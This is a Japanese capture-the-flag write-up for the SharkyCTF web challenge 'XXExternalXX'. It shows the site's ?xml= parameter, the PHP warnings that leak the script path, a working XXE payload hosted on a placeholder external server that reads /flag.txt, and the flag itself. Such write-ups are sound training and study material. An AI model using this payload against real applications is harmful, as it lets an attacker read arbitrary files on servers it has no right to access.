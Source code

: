 # XXExternalXX:Web:70pts
One of your customer all proud of his new platform asked you to audit it. To show him that you can get information on his server, he hid a file "flag.txt" at the server's root.  
[xxexternalxx.sharkyctf.xyz](http://xxexternalxx.sharkyctf.xyz)  

# Solution
アクセスすると以下のようなサイトとなっている。  
Home  
[site1.png](site/site1.png)  
Show stored data  
[site2.png](site/site2.png)  
Show stored dataページに注目するとURLがhttp://xxexternalxx.sharkyctf.xyz/?xml=data.xml となっている。  
以下のhttp://xxexternalxx.sharkyctf.xyz/data.xml を読み出しているようだ。  
```xml:data.xml
<root>
    <data>17/09/2019 the platform is now online, the fonctionnalities it contains will be audited by one of our society partenairs</data>
</root>
```
http://xxexternalxx.sharkyctf.xyz/?xml= にアクセスすると以下のエラーが出る。  
```text:エラー
Warning: file_get_contents(): Filename cannot be empty in /var/www/html/index.php on line 20

Warning: DOMDocument::loadXML(): Empty string supplied as input in /var/www/html/index.php on line 23

Warning: simplexml_import_dom(): Invalid Nodetype to import in /var/www/html/index.php on line 24

Notice: Trying to get property 'data' of non-object in /var/www/html/index.php on line 25
```
XXEを行い、flag.txtを読み出せばよい。  
http://www.xxxxx.xxx/hack.xml には以下のxmlを設置した。  
```xml:hack.xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY satoki SYSTEM '/flag.txt'>]><root><data>&satoki;</data></root>
```
http://xxexternalxx.sharkyctf.xyz/?xml=http://www.xxxxx.xxx/hack.xml にアクセスするとflagが表示される。  
[flag.png](site/flag.png)  

## shkCTF{G3T_XX3D_f5ba4f9f9c9e0f41dd9df266b391447a}